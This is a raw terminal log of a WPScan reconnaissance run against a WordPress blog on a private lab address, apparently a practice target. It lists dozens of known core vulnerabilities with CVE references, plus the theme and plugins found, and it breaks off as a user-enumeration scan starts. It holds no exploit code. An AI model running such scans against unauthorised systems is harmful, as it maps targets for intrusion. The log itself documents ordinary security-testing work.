[GandoPC 192.168.43.10]# wpscan --url https://192.168.43.10:12380/blogblog/ --enumerate ap

_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: https://192.168.43.10:12380/blogblog/
[+] Started: Tue Sep 25 14:49:06 2018

[+] Interesting header: DAVE: Soemthing doesn't look right here
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: https://192.168.43.10:12380/blogblog/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: https://192.168.43.10:12380/blogblog/?feed=rss2   [HTTP 200]
[!] Detected 1 user from RSS feed:
+------------+
| Name       |
+------------+
| John Smith |
+------------+
[!] Upload directory has directory listing enabled: https://192.168.43.10:12380/blogblog/wp-content/uploads/
[!] Includes directory has directory listing enabled: https://192.168.43.10:12380/blogblog/wp-includes/

[+] Enumerating WordPress version ...
[!] The WordPress 'https://192.168.43.10:12380/blogblog/readme.html' file exists exposing a version number

[+] WordPress version 4.2.1 (Released on 2015-04-27) identified from advanced fingerprinting, meta generator, readme, links opml, stylesheets numbers
[!] 55 vulnerabilities identified from the version number

[!] Title: WordPress 4.1-4.2.1 - Unauthenticated Genericons Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7979
    Reference: https://codex.wordpress.org/Version_4.2.2
[i] Fixed in: 4.2.2

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

[!] Title: WordPress <= 4.2.3 - wp_untrash_post_comments SQL Injection 
    Reference: https://wpvulndb.com/vulnerabilities/8126
    Reference: https://github.com/WordPress/WordPress/commit/70128fe7605cb963a46815cf91b0a5934f70eff5
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2213
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Timing Side Channel Attack
    Reference: https://wpvulndb.com/vulnerabilities/8130
    Reference: https://core.trac.wordpress.org/changeset/33536
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5730
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8131
    Reference: https://core.trac.wordpress.org/changeset/33529
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5732
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Nav Menu Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8132
    Reference: https://core.trac.wordpress.org/changeset/33541
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5733
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8133
    Reference: https://core.trac.wordpress.org/changeset/33549
    Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
[i] Fixed in: 4.2.4

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

[!] Title: WordPress <= 4.3 - User List Table Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8187
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: https://github.com/WordPress/WordPress/commit/f91a5fd10ea7245e5b41e288624819a37adf290a
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-7989
[i] Fixed in: 4.2.5

[!] Title: WordPress <= 4.3 - Publish Post & Mark as Sticky Permission Issue
    Reference: https://wpvulndb.com/vulnerabilities/8188
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5715
[i] Fixed in: 4.2.5

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8358
    Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564
[i] Fixed in: 4.2.6

[!] Title: WordPress 3.7-4.4.1 - Local URIs Server Side Request Forgery (SSRF)
    Reference: https://wpvulndb.com/vulnerabilities/8376
    Reference: https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/36435
    Reference: https://hackerone.com/reports/110801
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2222
[i] Fixed in: 4.2.7

[!] Title: WordPress 3.7-4.4.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8377
    Reference: https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/36444
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2221
[i] Fixed in: 4.2.7

[!] Title: WordPress <= 4.4.2 - SSRF Bypass using Octal & Hexedecimal IP addresses
    Reference: https://wpvulndb.com/vulnerabilities/8473
    Reference: https://codex.wordpress.org/Version_4.5
    Reference: https://github.com/WordPress/WordPress/commit/af9f0520875eda686fd13a427fd3914d7aded049
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4029
[i] Fixed in: 4.5

[!] Title: WordPress <= 4.4.2 - Reflected XSS in Network Settings
    Reference: https://wpvulndb.com/vulnerabilities/8474
    Reference: https://codex.wordpress.org/Version_4.5
    Reference: https://github.com/WordPress/WordPress/commit/cb2b3ed3c7d68f6505bfb5c90257e6aaa3e5fcb9
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6634
[i] Fixed in: 4.5

[!] Title: WordPress <= 4.4.2 - Script Compression Option CSRF
    Reference: https://wpvulndb.com/vulnerabilities/8475
    Reference: https://codex.wordpress.org/Version_4.5
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6635
[i] Fixed in: 4.5

[!] Title: WordPress 4.2-4.5.1 - MediaElement.js Reflected Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8488
    Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
    Reference: https://github.com/WordPress/WordPress/commit/a493dc0ab5819c8b831173185f1334b7c3e02e36
    Reference: https://gist.github.com/cure53/df34ea68c26441f3ae98f821ba1feb9c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4567
[i] Fixed in: 4.5.2

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)
    Reference: https://wpvulndb.com/vulnerabilities/8489
    Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
    Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
    Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
[i] Fixed in: 4.2.8

[!] Title: WordPress 4.2-4.5.2 - Authenticated Attachment Name Stored XSS
    Reference: https://wpvulndb.com/vulnerabilities/8518
    Reference: https://wordpress.org/news/2016/06/wordpress-4-5-3/
    Reference: https://github.com/WordPress/WordPress/commit/4372cdf45d0f49c74bbd4d60db7281de83e32648
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5833
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5834
[i] Fixed in: 4.2.9

[!] Title: WordPress 3.6-4.5.2 - Authenticated Revision History Information Disclosure
    Reference: https://wpvulndb.com/vulnerabilities/8519
    Reference: https://wordpress.org/news/2016/06/wordpress-4-5-3/
    Reference: https://github.com/WordPress/WordPress/commit/a2904cc3092c391ac7027bc87f7806953d1a25a1
    Reference: https://www.wordfence.com/blog/2016/06/wordpress-core-vulnerability-bypass-password-protected-posts/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5835
[i] Fixed in: 4.2.9

[!] Title: WordPress 2.6.0-4.5.2 - Unauthorized Category Removal from Post
    Reference: https://wpvulndb.com/vulnerabilities/8520
    Reference: https://wordpress.org/news/2016/06/wordpress-4-5-3/
    Reference: https://github.com/WordPress/WordPress/commit/6d05c7521baa980c4efec411feca5e7fab6f307c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5837
[i] Fixed in: 4.2.9

[!] Title: WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
    Reference: https://wpvulndb.com/vulnerabilities/8615
    Reference: https://wordpress.org/news/2016/09/wordpress-4-6-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0
    Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html
    Reference: http://seclists.org/fulldisclosure/2016/Sep/6
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7168
[i] Fixed in: 4.2.10

[!] Title: WordPress 2.8-4.6 - Path Traversal in Upgrade Package Uploader
    Reference: https://wpvulndb.com/vulnerabilities/8616
    Reference: https://wordpress.org/news/2016/09/wordpress-4-6-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/54720a14d85bc1197ded7cb09bd3ea790caa0b6e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7169
[i] Fixed in: 4.2.10

[!] Title: WordPress 2.9-4.7 - Authenticated Cross-Site scripting (XSS) in update-core.php
    Reference: https://wpvulndb.com/vulnerabilities/8716
    Reference: https://github.com/WordPress/WordPress/blob/c9ea1de1441bb3bda133bf72d513ca9de66566c2/wp-admin/update-core.php
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5488
[i] Fixed in: 4.2.11

[!] Title: WordPress 3.4-4.7 - Stored Cross-Site Scripting (XSS) via Theme Name fallback
    Reference: https://wpvulndb.com/vulnerabilities/8718
    Reference: https://www.mehmetince.net/low-severity-wordpress/
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/ce7fb2934dd111e6353784852de8aea2a938b359
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5490
[i] Fixed in: 4.2.11

[!] Title: WordPress <= 4.7 - Post via Email Checks mail.example.com by Default
    Reference: https://wpvulndb.com/vulnerabilities/8719
    Reference: https://github.com/WordPress/WordPress/commit/061e8788814ac87706d8b95688df276fe3c8596a
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5491
[i] Fixed in: 4.2.11

[!] Title: WordPress 2.8-4.7 - Accessibility Mode Cross-Site Request Forgery (CSRF)
    Reference: https://wpvulndb.com/vulnerabilities/8720
    Reference: https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5492
[i] Fixed in: 4.2.11

[!] Title: WordPress 3.0-4.7 - Cryptographically Weak Pseudo-Random Number Generator (PRNG)
    Reference: https://wpvulndb.com/vulnerabilities/8721
    Reference: https://github.com/WordPress/WordPress/commit/cea9e2dc62abf777e06b12ec4ad9d1aaa49b29f4
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5493
[i] Fixed in: 4.2.11

[!] Title: WordPress 4.2.0-4.7.1 - Press This UI Available to Unauthorised Users
    Reference: https://wpvulndb.com/vulnerabilities/8729
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-2-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/21264a31e0849e6ff793a06a17de877dd88ea454
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5610
[i] Fixed in: 4.2.12

[!] Title: WordPress 3.5-4.7.1 - WP_Query SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8730
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-2-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/85384297a60900004e27e417eac56d24267054cb
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5611
[i] Fixed in: 4.2.12

[!] Title: WordPress 3.6.0-4.7.2 - Authenticated Cross-Site Scripting (XSS) via Media File Metadata
    Reference: https://wpvulndb.com/vulnerabilities/8765
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/28f838ca3ee205b6f39cd2bf23eb4e5f52796bd7
    Reference: https://sumofpwn.nl/advisory/2016/wordpress_audio_playlist_functionality_is_affected_by_cross_site_scripting.html
    Reference: http://seclists.org/oss-sec/2017/q1/563
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6814
[i] Fixed in: 4.2.13

[!] Title: WordPress 2.8.1-4.7.2 - Control Characters in Redirect URL Validation
    Reference: https://wpvulndb.com/vulnerabilities/8766
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/288cd469396cfe7055972b457eb589cea51ce40e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6815
[i] Fixed in: 4.2.13

[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    Reference: https://wpvulndb.com/vulnerabilities/8768
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
[i] Fixed in: 4.2.13

[!] Title: WordPress 4.2-4.7.2 - Press This CSRF DoS
    Reference: https://wpvulndb.com/vulnerabilities/8770
    Reference: https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829
    Reference: https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_press_this_function_allows_dos.html
    Reference: http://seclists.org/oss-sec/2017/q1/562
    Reference: https://hackerone.com/reports/153093
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6819
[i] Fixed in: 4.2.13

[!] Title: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
    Reference: https://wpvulndb.com/vulnerabilities/8807
    Reference: https://exploitbox.io/vuln/WordPress-Exploit-4-7-Unauth-Password-Reset-0day-CVE-2017-8295.html
    Reference: http://blog.dewhurstsecurity.com/2017/05/04/exploitbox-wordpress-security-advisories.html
    Reference: https://core.trac.wordpress.org/ticket/25239
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8295

[!] Title: WordPress 2.7.0-4.7.4 - Insufficient Redirect Validation
    Reference: https://wpvulndb.com/vulnerabilities/8815
    Reference: https://github.com/WordPress/WordPress/commit/76d77e927bb4d0f87c7262a50e28d84e01fd2b11
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9066
[i] Fixed in: 4.2.15

[!] Title: WordPress 2.5.0-4.7.4 - Post Meta Data Values Improper Handling in XML-RPC
    Reference: https://wpvulndb.com/vulnerabilities/8816
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/3d95e3ae816f4d7c638f40d3e936a4be19724381
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9062
[i] Fixed in: 4.2.15

[!] Title: WordPress 3.4.0-4.7.4 - XML-RPC Post Meta Data Lack of Capability Checks 
    Reference: https://wpvulndb.com/vulnerabilities/8817
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/e88a48a066ab2200ce3091b131d43e2fab2460a4
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9065
[i] Fixed in: 4.2.15

[!] Title: WordPress 2.5.0-4.7.4 - Filesystem Credentials Dialog CSRF
    Reference: https://wpvulndb.com/vulnerabilities/8818
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/38347d7c580be4cdd8476e4bbc653d5c79ed9b67
    Reference: https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9064
[i] Fixed in: 4.2.15

[!] Title: WordPress 3.3-4.7.4 - Large File Upload Error XSS
    Reference: https://wpvulndb.com/vulnerabilities/8819
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/8c7ea71edbbffca5d9766b7bea7c7f3722ffafa6
    Reference: https://hackerone.com/reports/203515
    Reference: https://hackerone.com/reports/203515
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9061
[i] Fixed in: 4.2.15

[!] Title: WordPress 3.4.0-4.7.4 - Customizer XSS & CSRF
    Reference: https://wpvulndb.com/vulnerabilities/8820
    Reference: https://wordpress.org/news/2017/05/wordpress-4-7-5/
    Reference: https://github.com/WordPress/WordPress/commit/3d10fef22d788f29aed745b0f5ff6f6baea69af3
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9063
[i] Fixed in: 4.2.15

[!] Title: WordPress 2.3.0-4.8.1 - $wpdb->prepare() potential SQL Injection
    Reference: https://wpvulndb.com/vulnerabilities/8905
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://github.com/WordPress/WordPress/commit/fc930d3daed1c3acef010d04acc2c5de93cd18ec
[i] Fixed in: 4.2.16

[!] Title: WordPress 2.3.0-4.7.4 - Authenticated SQL injection
    Reference: https://wpvulndb.com/vulnerabilities/8906
    Reference: https://medium.com/websec/wordpress-sqli-bbb2afcc8e94
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/70b21279098fc973eae803693c0705a548128e48
    Reference: https://wpvulndb.com/vulnerabilities/8905
[i] Fixed in: 4.7.5

[!] Title: WordPress 2.9.2-4.8.1 - Open Redirect
    Reference: https://wpvulndb.com/vulnerabilities/8910
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41398
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14725
[i] Fixed in: 4.2.16

[!] Title: WordPress 3.0-4.8.1 - Path Traversal in Unzipping
    Reference: https://wpvulndb.com/vulnerabilities/8911
    Reference: https://wordpress.org/news/2017/09/wordpress-4-8-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/changeset/41457
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-14719
[i] Fixed in: 4.2.16

[!] Title: WordPress <= 4.8.2 - $wpdb->prepare() Weakness
    Reference: https://wpvulndb.com/vulnerabilities/8941
    Reference: https://wordpress.org/news/2017/10/wordpress-4-8-3-security-release/
    Reference: https://github.com/WordPress/WordPress/commit/a2693fd8602e3263b5925b9d799ddd577202167d
    Reference: https://twitter.com/ircmaxell/status/923662170092638208
    Reference: https://blog.ircmaxell.com/2017/10/disclosure-wordpress-wpdb-sql-injection-technical.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16510
[i] Fixed in: 4.2.17

[!] Title: WordPress 2.8.6-4.9 - Authenticated JavaScript File Upload
    Reference: https://wpvulndb.com/vulnerabilities/8966
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/67d03a98c2cae5f41843c897f206adde299b0509
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17092
[i] Fixed in: 4.2.18

[!] Title: WordPress 1.5.0-4.9 - RSS and Atom Feed Escaping
    Reference: https://wpvulndb.com/vulnerabilities/8967
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/f1de7e42df29395c3314bf85bff3d1f4f90541de
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17094
[i] Fixed in: 4.2.18

[!] Title: WordPress 3.7-4.9 - 'newbloguser' Key Weak Hashing
    Reference: https://wpvulndb.com/vulnerabilities/8969
    Reference: https://wordpress.org/news/2017/11/wordpress-4-9-1-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/eaf1cfdc1fe0bdffabd8d879c591b864d833326c
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17091
[i] Fixed in: 4.2.18

[!] Title: WordPress 3.7-4.9.1 - MediaElement Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/9006
    Reference: https://github.com/WordPress/WordPress/commit/3fe9cb61ee71fcfadb5e002399296fcc1198d850
    Reference: https://wordpress.org/news/2018/01/wordpress-4-9-2-security-and-maintenance-release/
    Reference: https://core.trac.wordpress.org/ticket/42720
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5776
[i] Fixed in: 4.9.2

[!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
    Reference: https://wpvulndb.com/vulnerabilities/9021
    Reference: https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
    Reference: https://github.com/quitten/doser.py
    Reference: https://thehackernews.com/2018/02/wordpress-dos-exploit.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

[!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
    Reference: https://wpvulndb.com/vulnerabilities/9053
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
[i] Fixed in: 4.2.20

[!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
    Reference: https://wpvulndb.com/vulnerabilities/9054
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
[i] Fixed in: 4.2.20

[!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
    Reference: https://wpvulndb.com/vulnerabilities/9055
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
[i] Fixed in: 4.2.20

[!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
    Reference: https://wpvulndb.com/vulnerabilities/9100
    Reference: https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
    Reference: http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
    Reference: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    Reference: https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
    Reference: https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
[i] Fixed in: 4.2.21

[+] WordPress theme in use: bhost - v1.2.9

[+] Name: bhost - v1.2.9
 |  Last updated: 2018-01-10T00:00:00.000Z
 |  Location: https://192.168.43.10:12380/blogblog/wp-content/themes/bhost/
 |  Readme: https://192.168.43.10:12380/blogblog/wp-content/themes/bhost/readme.txt
[!] The version is out of date, the latest version is 1.4.0
 |  Style URL: https://192.168.43.10:12380/blogblog/wp-content/themes/bhost/style.css
 |  Theme Name: BHost
 |  Theme URI: Author: Masum Billah
 |  Description: Bhost is a nice , clean , beautifull, Responsive and modern design free WordPress Theme. This the...
 |  Author: Masum Billah
 |  Author URI: http://getmasum.net/

[+] Enumerating plugins from passive detection ...
[+] No plugins found passively

[+] Enumerating all plugins (may take a while and use a lot of system resources) ...

   Time: 00:09:49 <===================================================================================================================================> (76488 / 76488) 100.00% Time: 00:09:49

[+] We found 4 plugins:

[+] Name: advanced-video-embed-embed-videos-or-playlists - v1.0
 |  Latest version: 1.0 (up to date)
 |  Last updated: 2015-10-14T13:52:00.000Z
 |  Location: https://192.168.43.10:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/
 |  Readme: https://192.168.43.10:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/readme.txt
[!] Directory listing is enabled: https://192.168.43.10:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/

[+] Name: akismet
 |  Latest version: 4.0.8 
 |  Last updated: 2018-06-19T18:18:00.000Z
 |  Location: https://192.168.43.10:12380/blogblog/wp-content/plugins/akismet/

[!] We could not determine the version installed. All of the past known vulnerabilities will be output to allow you to do your own manual investigation.

[!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8215
    Reference: http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
    Reference: https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
[i] Fixed in: 3.1.5

[+] Name: shortcode-ui - v0.6.2
 |  Last updated: 2017-09-12T20:55:00.000Z
 |  Location: https://192.168.43.10:12380/blogblog/wp-content/plugins/shortcode-ui/
 |  Readme: https://192.168.43.10:12380/blogblog/wp-content/plugins/shortcode-ui/readme.txt
[!] The version is out of date, the latest version is 0.7.3
[!] Directory listing is enabled: https://192.168.43.10:12380/blogblog/wp-content/plugins/shortcode-ui/

[+] Name: two-factor
 |  Latest version: 0.1-dev-20180225 
 |  Last updated: 2018-02-25T10:55:00.000Z
 |  Location: https://192.168.43.10:12380/blogblog/wp-content/plugins/two-factor/
 |  Readme: https://192.168.43.10:12380/blogblog/wp-content/plugins/two-factor/readme.txt
[!] Directory listing is enabled: https://192.168.43.10:12380/blogblog/wp-content/plugins/two-factor/

[+] Finished: Tue Sep 25 14:59:04 2018
[+] Elapsed time: 00:09:57
[+] Requests made: 76582
[+] Memory used: 145.18 MB

[GandoPC 192.168.43.10]# wpscan --url https://192.168.43.10:12380/blogblog/ --enumerate u

_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
